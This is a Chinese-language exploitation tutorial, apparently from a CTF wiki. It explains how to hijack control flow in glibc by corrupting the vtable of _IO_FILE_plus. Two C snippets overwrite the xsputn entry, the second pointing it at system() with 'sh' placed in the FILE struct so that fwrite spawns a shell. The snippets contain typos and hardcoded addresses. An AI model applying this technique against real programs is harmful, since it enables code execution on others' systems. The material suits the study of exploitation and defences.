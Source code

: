 # 僞造vtable劫持程序流程


## 簡介

前面我們介紹了Linux中文件流的特性（FILE），我們可以得知Linux中的一些常見的IO操作函數都需要經過FILE結構進行處理。尤其是_IO_FILE_plus結構中存在vtable，一些函數會取出vtable中的指針進行調用。

因此僞造vtable劫持程序流程的中心思想就是針對_IO_FILE_plus的vtable動手腳，通過把vtable指向我們控制的內存，並在其中佈置函數指針來實現。


因此vtable劫持分爲兩種，一種是直接改寫vtable中的函數指針，通過任意地址寫就可以實現。另一種是覆蓋vtable的指針指向我們控制的內存，然後在其中佈置函數指針。

## 實踐


這裏演示了修改vtable中的指針，首先需要知道_IO_FILE_plus位於哪裏，對於fopen的情況下是位於堆內存，對於stdin\stdout\stderr是位於libc.so中。

```
int main(void)
{
    FILE *fp;
    long long *vtable_ptr;
    fp=fopen("123.txt","rw");
    vtable_ptr=*(long long*)((long long)fp+0xd8);     //get vtable
    
    vtable_ptr[7]=0x41414141 //xsputn

    printf("call 0x41414141");
}
```

根據vtable在_IO_FILE_plus的偏移得到vtable的地址，在64位系統下偏移是0xd8。之後需要搞清楚欲劫持的IO函數會調用vtable中的哪個函數。關於IO函數調用vtable的情況已經在FILE結構介紹一節給出了，知道了printf會調用vtable中的xsputn，並且xsputn的是vtable中第八項之後就可以寫入這個指針進行劫持。

並且在xsputn等vtable函數進行調用時，傳入的第一個參數其實是對應的_IO_FILE_plus地址。比如這例子調用printf，傳遞給vtable的第一個參數就是_IO_2_1_stdout_的地址。

利用這點可以實現給劫持的vtable函數傳參，比如


```
#define system_ptr 0x7ffff7a52390;

int main(void)
{
    FILE *fp;
    long long *vtable_ptr;
    fp=fopen("123.txt","rw");
    vtable_ptr=*(long long*)((long long)fp+0xd8);     //get vtable
    
    memcopy(fp,"sh",3);
    
    vtable_ptr[7]=system_ptr //xsputn
    

    fwrite("hi",2,1,fp);
}
```
